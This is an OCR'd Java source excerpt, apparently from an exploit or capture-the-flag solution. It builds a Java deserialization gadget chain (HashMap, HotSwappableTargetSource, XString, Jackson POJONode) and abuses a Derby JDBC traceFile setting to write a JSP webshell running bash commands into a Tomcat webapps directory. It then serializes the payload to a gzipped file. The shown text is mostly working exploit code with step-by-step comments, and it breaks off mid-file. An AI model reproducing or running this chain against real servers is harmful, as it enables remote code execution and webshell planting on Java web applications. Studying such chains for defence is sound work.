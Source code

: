 ```java
         * The payload instanties a connection to a derby server (which doesn't exists in our case).
         * We can leverage the usage of attributes for the connection in order to create a log file.
         * The parameter is traceFile.
         * In this log file there will be our webshell. How? By simply adding it after the connection.
         * This will be simply logged to the file.
         * 
         * There is just one caveat. We need to adjust the log tracing level in order to reduce the amount of junk outputted to the log file.
         * After trying and error, it's ok to have an error tracing level around 32 to 35
         *  
         * */ 

        CustomDataSource getterClass = new CustomDataSource();
        setFieldValue(getterClass,"conStr","jdbc:derby://127.0.0.1:8080/tmp/myderby;create=true;traceFile=/<path-to-tomcat>/webapps/gallery/exploit.jsp;traceLevel=35;<%out.write(new java.io.BufferedReader(new java.io.InputStreamReader(Runtime.getRuntime().exec(new String[]{\"/bin/bash\", \"-c\", \"id\"}).getInputStream())).readLine())\\u003b%>=zz");

        /**
         *  We can now create our POJONode class with our getterClass embedded.
         *  We need to wrap the getterClass around a Proxy. This gadget is called JacksonReadObject2GetterBetter.
         *  The standard gadget is not working, due to some exception being thrown.
         * 
         * */ 

	    POJONode toStringClass = new POJONode(makeTemplatesImplAopProxy(getterClass));

        /**
         * Now we have a fully working chain from a toString method to a getter method.
         * We need to build the rest of the chain.
         * At the beginning i thought about using BadAttributeValueExpException#readObject -> toString gadget.
         * However this is no longer possible to use due to the JDK not allowing it.
         * 
         * I've tried also with EventListenerList#readObject -> toString but even that was not working due to some corruption.
         * 
         * So the final gadget used is HashMap#readObject -> HotSwappableTargetSource#equals -> XString#equals -> toString.
         * Which is a bit longer but it's indeed working.
         * 
         */


        // We cannot instantiate XString here due to some road blocks. We can find this workaround however.
        Class cls = Class.forName("com.sun.org.apache.xpath.internal.objects.XString");
        Constructor constructor = cls.getDeclaredConstructor(String.class);
        constructor.setAccessible(true);

        HotSwappableTargetSource hotSwappableTargetSource1 = new HotSwappableTargetSource(toStringClass);
        HotSwappableTargetSource hotSwappableTargetSource2 = new HotSwappableTargetSource(constructor.newInstance("1"));
        HashMap hashMap = makeMap(hotSwappableTargetSource1, hotSwappableTargetSource2);

        FileOutputStream fos = new FileOutputStream("exploit.bin");
        GZIPOutputStream gzipOS = new GZIPOutputStream(fos);
        ObjectOutputStream oos = new ObjectOutputStream(gzipOS);
```